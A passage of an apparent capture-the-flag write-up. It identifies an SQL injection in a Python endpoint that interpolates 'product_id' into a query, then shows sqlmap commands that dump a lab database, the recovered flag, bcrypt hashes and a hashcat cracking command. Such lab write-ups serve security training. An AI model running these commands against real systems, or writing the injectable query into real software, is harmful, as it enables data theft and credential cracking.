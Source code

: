 The vulnerable section is:

```python
rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")
```

This line directly interpolates `product_id` into an SQL query **without sanitization or parameterization**, making it susceptible to SQL injection via the `/products/<product_id>` endpoint.

Knowing this, we can proceed to exploitation.

## EXPLOITATION

***

Since we know SQLI is on the `products` section, we can use sqlmap to automate the exploitation process:

```
sqlmap -u "http://IP/products/1" --dbs --batch --level=5 --risk=3
```

We find the following databases:

```python
available databases [5]:
[*] duckyinc
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
```

Let's read the duckyinc one:

```
sqlmap -u "http://10.10.38.213/products/1" -D duckyinc --dump --batch
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609134256.png)

We got our first flag:

```
thm{br3ak1ng_4nd_3nt3r1ng}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250609134438.png)

We got some hashes, we can try getting them and cracking them with hashcat:

```
$2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a
$2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa
$2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK
```

Now:

```
hashcat -m 3200 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```
